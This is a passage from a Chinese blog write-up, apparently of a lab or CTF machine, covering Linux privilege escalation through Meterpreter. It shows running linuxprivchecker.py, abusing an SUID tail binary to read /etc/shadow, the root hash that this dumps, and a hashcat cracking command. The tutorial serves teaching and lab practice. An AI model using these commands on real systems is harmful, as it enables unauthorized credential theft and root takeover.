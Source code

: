
然后我们上传一个Linux提权信息收集脚本linuxprivchecker.py：
![818602_6Q99PGQ99APHXZ5](/blog.github.io/images/818602_6Q99PGQ99APHXZ5.png)
然后运行这个脚本：

```
meterpreter > chmod 744 /tmp/linuxprivchecker.py
meterpreter > shell
Process 141 created.
Channel 10 created.
python /tmp/linuxprivchecker.py
```

![818602_DUD3N4UGT8UWPK3](/blog.github.io/images/818602_DUD3N4UGT8UWPK3.png)
仔细阅读脚本输出的内容，我们发现到tail被设置了SUID：
![818602_AENTPTZY5EY5R64](/blog.github.io/images/818602_AENTPTZY5EY5R64.png)
直接用tail读取shadow文件：

```
meterpreter > shell
Process 344 created.
Channel 3 created.
tail -c1G /etc/shadow
root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::
daemon:*:17931:0:99999:7:::
bin:*:17931:0:99999:7:::
sys:*:17931:0:99999:7:::
sync:*:17931:0:99999:7:::
games:*:17931:0:99999:7:::
man:*:17931:0:99999:7:::
lp:*:17931:0:99999:7:::
mail:*:17931:0:99999:7:::
news:*:17931:0:99999:7:::
uucp:*:17931:0:99999:7:::
proxy:*:17931:0:99999:7:::
www-data:*:17931:0:99999:7:::
backup:*:17931:0:99999:7:::
list:*:17931:0:99999:7:::
irc:*:17931:0:99999:7:::
gnats:*:17931:0:99999:7:::
nobody:*:17931:0:99999:7:::
_apt:*:17931:0:99999:7:::
```

![818602_NQF3TADYEZBV9W9](/blog.github.io/images/818602_NQF3TADYEZBV9W9.png)
这里得到了root用户密码的hash值，我们先把hash值保存到文件root.hash中，然后利用hashcat破解它：

```
root@kali:~# hashcat -w 3 -a 0 -m 1800 -o root.out root.hash /usr/share/metasploit-framework/data/wordlists/common_roots.txt --force
```
